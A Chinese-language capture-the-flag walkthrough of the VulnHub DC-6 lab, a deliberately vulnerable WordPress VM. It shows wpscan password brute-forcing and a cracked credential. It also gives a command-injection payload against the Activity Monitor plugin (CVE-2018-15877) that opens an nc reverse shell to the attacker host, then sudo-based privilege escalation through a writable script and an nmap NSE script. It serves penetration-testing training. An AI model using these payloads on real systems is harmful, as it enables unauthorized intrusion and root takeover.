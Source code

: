# DC6-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-6,315/

**Description**

DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

This isn't an overly difficult challenge so should be great for beginners.

The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-6 is a VirtualBox VM built on Debian 64 bit, but there shouldn't be any issues running it on most PCs.

I have tested this on VMWare Player, but if there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox or VMWare and away you go.

NOTE: You WILL need to edit your hosts file on your pentesting device so that it reads something like:

`192.168.0.142 wordy`

NOTE: I've used 192.168.0.142 as an example. You'll need to use your normal method to determine the IP address of the VM, and adapt accordingly.

This is VERY important.

And yes, it's another WordPress based VM (although only my second one).

**Clue**

OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

`cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt` That should save you a few years. ;-)

**知识点**
- worpress 插件漏洞利用 (中期)
- 利用 nmap 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.140` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.140
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/2.png)

一个 SSH 一个 web,先从 web 入手

按照信息修改主机 hosts 文件

修改 kali hosts 文件
```bash
echo "192.168.141.140 wordy" >> /etc/hosts
```

访问 web,发现是个 wordpress 搭建的网站

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/3.png)

按照之前 DC2 的经验来,上 wpscan 扫他一波
```bash
wpscan --url http://wordy --enumerate u
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/4.png)

发现几个用户,尝试爆破弱口令,上了 TOP100 没爆出来,回过头来一看作者给了提示
```
gunzip rockyou.txt.gz
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

估计这玩意就是钦定的字典了，爆破
```
wpscan --url http://wordy --passwords passwords.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/5.png)

跑出一个 mark
```
Username: mark
Password: helpdesk01
```

登录 http://wordy/wp-login.php ,发现一个插件 activity monitor

---

# 中期-漏洞利用

之前用 wpscan 顺便扫了下漏洞,并没有可以 RCE 的,那么这里猜测可能从这个插件入手,直接搜到一个编号为 CVE-2018-15877 的相应漏洞

kali 监听
```
nc -nlvp 4444
```

burp 抓包利用
```
127.0.0.1| nc -e /bin/sh 192.168.141.134 4444
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/6.png)

成功弹回

---

# 后期-提权

升级下 shell
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/7.png)

www 用户下啥也没有，tmp 空的，看了下 passwd 有几个 wordpress 一样的用户,拿 helpdesk01 测试了下几个用户都登不上去,顺便翻了下他们的家目录,mark 和 jens 都有东西

```bash
ls /home/graham
ls /home/mark
ls /home/sarah
ls /home/jens
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/8.png)

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/9.png)

可以，直接给了我 graham 账号密码,登上去,然后继续查看

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/10.png)

看样子只是个备份脚本,但是没有权限运行,暂放一边,查看下能提权的东西把
```
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/11.png)

巧了，这个正好可以用 jens sudo 运行,那修改这个脚本来获取 jens 的 shell 试试
```
echo "/bin/sh" >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
whoami
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/12.png)

切换成功,jens 下在看看有啥能提权的
```bash
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/13.png)

看着着熟悉的4个字母,不禁露出了猥琐的笑容
```bash
echo 'os.execute("/bin/sh")' > /tmp/root.nse
cat /tmp/root.nse
sudo nmap --script=/tmp/root.nse
whoami
cd /root
cat *
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC6/14.png)

提权成功,感谢靶机作者 @DCUA7
